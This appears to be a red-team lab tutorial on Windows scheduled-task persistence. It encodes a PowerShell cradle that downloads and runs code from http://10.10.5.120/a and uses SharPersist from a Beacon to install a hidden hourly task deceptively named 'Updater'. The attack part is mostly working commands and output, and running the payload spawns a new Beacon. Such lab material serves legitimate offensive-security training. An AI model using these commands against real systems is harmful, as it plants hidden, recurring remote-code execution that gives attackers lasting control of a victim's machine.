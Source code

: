 The Windows Task Scheduler allows us to create "tasks" that execute on a pre-determined trigger. That trigger could be a time of day, on user-logon, when the computer goes idle, when the computer is locked, or a combination thereof.

Let's create a scheduled task that will execute a PowerShell payload once every hour. To save ourselves from having to deal with lots of quotations in the IEX cradle, we can encode it to base64 and execute it using the `-EncodedCommand` parameter in PowerShell (often appreciated to `-enc`).

This is a little complicated to do, because it must use Unicode encoding (rather than UTF8 or ASCII).

In PowerShell:
```powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
```

In Linux:

```shell
root@kali:~# str='IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'
root@kali:~# echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
```

```shell
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly
[+] SUCCESS: Scheduled task added
```

Where:

-   `-t` is the desired persistence technique.
-   `-c` is the command to execute.
-   `-a` are any arguments for that command.
-   `-n` is the name of the task.
-   `-m` is to add the task (you can also `remove`, `check` and `list`).
-   `-o` is the task frequency.

  

On the console of **WKSTN-1**, open the **Task Scheduler** and select **Task Scheduler Library** in the left-hand menu. You should see your task appear in the main window. You may of course wait for one hour, or simply highlight the task and click **Run** in the right-hand **Actions** menu. This should spawn another Beacon.